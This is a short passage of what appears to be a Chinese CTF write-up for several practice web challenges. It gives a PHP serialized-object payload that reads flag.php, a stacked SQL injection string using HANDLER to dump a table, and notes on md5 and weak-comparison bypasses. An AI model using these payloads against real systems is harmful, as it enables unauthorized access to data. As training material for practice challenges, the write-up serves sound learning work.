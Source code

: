 ```php
```

传payload，成功拿到flag.

还有,

```
O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";s:8:"flag.php";S:10:"\00*\00content";s:0:"";}
```

## [GYCTF2020]Blacklist

handler

```
1';show tables;handler FlagHere open;handler FlagHere read first;#
```

## [MRCTF2020]Ez_bypass

md5强相等 数组绕过

弱比较绕过

## [强网杯 2019]高明的黑客



